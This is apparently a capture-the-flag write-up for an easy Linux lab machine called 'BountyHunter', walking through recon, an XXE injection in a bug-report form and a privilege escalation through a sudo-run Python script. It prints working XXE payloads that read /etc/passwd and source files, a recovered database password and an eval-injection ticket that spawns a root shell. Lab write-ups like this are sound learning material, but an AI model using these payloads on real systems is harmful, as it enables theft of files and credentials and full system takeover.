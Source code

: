 ## **BOUNTY HOUNTER**

Machine Difficulty: <span style="color:#39e600">Easy</span> | Machine OS: <span style="color:#39e600">Linux</span>

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/a24c032885e56a17a6c74cc58b63e8f4.png?raw=true)

Bounty hunter is an easy box based on well known vulnerability with a twist. For the initial foothold if you find the path you have to follow it and when it comes to end think a little bit different (OWASP will help you a lot). The root is straightforward, maybe you stuck for a bit, but if you combine some things you will get what you want!

----



**Nmap Scan**

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010535743.png?raw=true)

**Gobuster Scan**

![image-20210808143902953](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143902953.png?raw=true)

Accessing the /portal.php we see a bounty report form.

![image-20210808143133909](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143133909.png?raw=true)

Let's take the request in burp and analyze it a little bit.

![image-20210808143249434](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143249434.png?raw=true)

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ%2BdGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

Base64 decode. We see it id xml and that is a good sign!

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

It brakes a little bit. We have to URL decode first and then base64 decode.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

More about XXE on  [PortSwigger](https://portswigger.net/web-security/xxe/ ) 

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210727231428484.png)

We successfully read the **/etc/passwd** file!

I tried to find the id_rsa of the user **developemt**, to access the **/etc/shadow**, to access the the **db.php** but all was a dead end.

Until I used filter base64 to access the **db.php**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010636672.png)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*Decoded*. 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We successfully login with ssh as **development**.

![image-20210730010919988](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010919988.png?raw=true)

****



## **Privilege Escalation**

My fav command **sudo -l**

![image-20210730012727472](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730012727472.png?raw=true)

Let's locate ticketValidator.py and examine it.

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

There is also and a folder with invalid tickets, this will help us!

![image-20210730013101639](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-2021073001053003.png?raw=true)

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

After some time modifying my **test.md** this is the final PoC for root.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image-20210730171259804](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730171259804.png)

ROOT ROOT ROOT!

<span style="font-family:Papyrus; font-size:2em;">Happy Hacking!</span> 




